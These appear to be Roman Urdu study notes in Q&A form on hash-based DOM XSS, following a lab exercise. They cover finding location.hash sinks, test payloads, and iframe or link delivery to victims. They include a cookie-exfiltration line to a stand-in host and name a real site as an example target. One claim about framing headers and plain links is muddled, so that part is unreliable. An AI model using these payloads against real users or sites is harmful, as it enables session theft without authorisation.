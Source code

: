 # Yeh kis tarah ki technique thi 

### ✅ Q1: Real website pe exploit server nahi hota, to phir link kaise banayein?
🔍 Jawaab: Bilkul sahi — real world mein koi "exploit server" nahi hota. Wo sirf lab practice ke liye hota hai.

### 🔑 Lekin real world mein:
Tu apni khud ki malicious page bana ke link send karta hai — jaise:

- GitHub pages
- 000webhost
- Netlify
- Ngrok (for localhost)
- Ya apna hosted page

🎯 Target user ko tu aise URL deta hai:

```<iframe src="https://target.com/#<xss_payload>" onload="..."></iframe>```

Aur phir victim jaise hi tera page kholta hai, target.com pe tera payload execute hota hai.

---

### ✅ Q2: Kaise pata chalega ke hash (#) use ho raha hai aur payload daal sakte hain?

🔍 Jawaab: Tera process ye hoga:

URL dekho — agar #something dikh raha hai (hash), toh pehla clue mil gaya.

Example: ```https://example.com/#about```

View source ya Inspect → Sources / Elements / Script mein dekho:

Kya location.hash likha hua hai?

Kya yeh kisi sink (jQuery selector, innerHTML, document.write, etc.) mein jaa raha hai?

### Example:

```var section = location.hash;```
```$(section).addClass("highlight");```

Agar aisa code mil gaya, test karo:

URL mein try karo:

```#<img src=x onerror=alert(1)>```

Agar XSS chali gayi, to samajh ja hash-based DOM XSS hai.

Ab agar tu victim ko attack karna chahta hai silently, to:

iframe bana ke usme payload embed karta hai

Jaise is lab mein tha

---

### ✅ Q3: print() function kya hota hai aur real website pe kab use hota hai?
📄 JavaScript ka print() function:

Yeh browser ka built-in function hai

Jab call karo → print dialog open hota hai

Iska koi security threat nahi, bas ek proof hai ke XSS execute ho gaya

❗Real world mein:
Tum print() nahi doge

Tum alert(1) ya fir:

```document.cookie```
```document.location```
```fetch('https://your-site.com/log?cookie=' + document.cookie)```

jaise payloads doge jo data chura lein

🔥 Tu print() tab use karta hai:
Jab alert() block ho jaye kisi browser setting se

Ya jab lab ya CTF bolta ho “print() use karo”

---

### Q: Nhi ab jaisy yeh hai website beingguru.com iska link yeh bna doon ga
```<iframe src="https://beingguru.com/#<xss_payload>" onload="..."></iframe>```
too ab iss main meray page ka url kidhar hai yeh too main direct beingguru.com ko targer kr rha hoon?

### Jawab:
Tu apna payload jaisy ```https://beingguru.com/#<img src=x onerror=alert(1)>``` iframe ke zariye kisi dusri website (jaise beingguru.com) pe
bhej sakta hai iss tarah ```<iframe src="https://beingguru.com/#<img src=x onerror=alert(1)>"></iframe>``` — lekin us iframe ko apni website
ya html file mein daalna zaroori hai. Wo jo HTML file tu banaega — wahi tera "exploit server" ban jaata hai real world mein. 
Uska link tu victim ko dega. Agar target site iframe allow karti hai aur hash ya search se XSS vulnerable hai, to payload execute ho jata hai.

Main apni website pr gya wahan HTML main aik link bnahea iss tarah

```<a href="https://beingguru.com/#<img src=x onerror=alert(1)>">Click here</a>``` ab yeh link webpage pr **Click here** ky naam sy show hoga jab victim **Click here**
pr click karega too wo beingguru.com website pr chala jaye ga or agr wo website vulnerable hue jaisy  X-Frame-Options: DENY ya SAMEORIGIN headers nahi lagaye hue hoe
too XSS chal jaye ga

---

### Real-World Tip for Pentesters:
Sabse pehle URL observe karo: #, ?, etc.

Inspect source: location.hash, location.search ka use ho raha hai ya nahi

Dekho: koi sink (innerHTML, jQuery selector, etc.) mein jaa raha hai ya nahi

Test payload: <img src=x onerror=alert(1)>

Agar kaam kar gaya → phir iframe ya anchor se exploit bana


